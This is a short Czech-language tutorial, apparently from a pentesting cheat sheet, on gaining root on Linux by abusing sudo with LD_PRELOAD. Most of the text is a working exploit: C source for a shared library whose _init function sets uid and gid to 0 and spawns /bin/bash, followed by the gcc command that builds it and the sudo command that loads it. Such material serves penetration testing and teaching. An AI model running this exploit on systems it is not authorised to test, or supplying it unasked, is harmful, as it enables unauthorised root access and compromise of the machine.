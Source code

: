 Privilege escalation pomocí sudo a LD_PRELOAD využívá možnost vložit vlastní knihovnu před spuštěním programu. Útočník vytvoří škodlivou sdílenou knihovnu, která například spustí shell s vyššími právy, nastaví proměnnou prostředí LD_PRELOAD na tuto knihovnu a spustí povolený příkaz přes sudo.

### Ukázka:
Vytvořte knihovnu (`exploit.c`):
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
void _init(){
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Kompilujte:
```bash
$ gcc -fPIC -shared -o /cesta/k/exploit.so exploit.c -nostartfiles
```

Spusťte exploit:
```bash
$ sudo LD_PRELOAD=/cesta/k/exploit.so /usr/bin/<program>
```